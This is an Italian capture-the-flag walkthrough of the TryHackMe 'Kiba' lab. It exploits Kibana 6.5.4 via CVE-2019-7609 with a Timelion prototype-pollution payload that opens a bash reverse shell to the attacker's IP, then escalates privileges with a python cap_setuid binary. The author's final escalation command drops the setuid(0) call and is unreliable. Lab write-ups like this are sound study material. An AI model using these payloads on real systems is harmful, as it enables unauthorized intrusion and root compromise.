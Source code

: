 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/kiba

Qual è la vulnerabilità specifica dei linguaggi di programmazione con ereditarietà basata su prototipi?

La "prototype pollution" è una vulnerabilità che si verifica nei linguaggi di programmazione che utilizzano l'ereditarietà basata su prototipi, come JavaScript. Questa vulnerabilità consente a un attaccante di modificare le proprietà del prototipo di un oggetto, il che può influenzare tutti gli oggetti che ereditano da quel prototipo.
```
prototype pollution
```

Qual è la versione del dashboard di visualizzazione installata sul server?

```
nmap -Pn -v -p- 10.10.33.25
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent
```

```
nmap -sVC -p22,80,5044,5601 10.10.33.25
```

```
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 25 May 2025 09:04:30 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 25 May 2025 09:04:30 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 25 May 2025 09:04:30 GMT
|_    {"statusCode":404,"error":"Not Found"}

```

```
http://10.10.33.25:5601/app/kibana#/management?_g=()
```
troviamo kibana
```
6.5.4
```

Qual è il codice CVE di questa vulnerabilità? Il formato è: CVE-0000-0000

facciamo una ricerca su kibana 6.5.4
```
CVE-2019-7609
```

Compromettere la macchina e individuare user.txt

troviamo come sfruttare la vulnerabiltà su
https://github.com/mpgn/CVE-2019-7609

vai su "timelion" > incolla questo script qui sotto nella casella > "esegui"


```
10.10.73.213:5601
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.14.99.134/4444 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.14.99.134/4444 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
premere su start e successivamente premere Canvas sulla sinistra , ripetere operazione da capo se ci sono problemi

otteniamo la reverse shell

```
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.14.99.134] from (UNKNOWN) [10.10.73.213] 46248
bash: cannot set terminal process group (962): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ 
```

```
cd /home/kiba
```

```
ls
elasticsearch-6.5.4.deb
kibana
user.txt
```

```
cat user.txt
```
Compromettere la macchina e individuare user.txt
```
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```

Come elencheresti ricorsivamente tutte queste le capabilities?
```
getcap -r/
```

```
getcap -r / 2>/dev/null
```

```
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

La capacità `cap_setuid` consente a un programma di modificare temporaneamente il proprio ID utente in quello del proprietario del file, anche se l'utente non ha privilegi di root. L'indicazione `+ep` significa che il file ha sia la capacità `cap_setuid` sia il permesso di esecuzione. Avere questa capacità su un file permette di eseguirlo con i privilegi del proprietario, il che può essere sfruttato per attacchi di escalation dei privilegi in caso di vulnerabilità.

controlliamo su https://gtfobins.github.io/gtfobins/python/#capabilities come sfruttarlo

```
## Capabilities[](https://gtfobins.github.io/gtfobins/python/#capabilities)

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

- ```
    cp $(which python) .
    sudo setcap cap_setuid+ep python
    
    ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
    ```
```

```
python -c 'import os; os.system("/bin/sh")'
```

```bash
cat /root/root.txt
THM{xxxxxxxxxxxx}
```

```
THM{xxxxxxxxxxx}
```

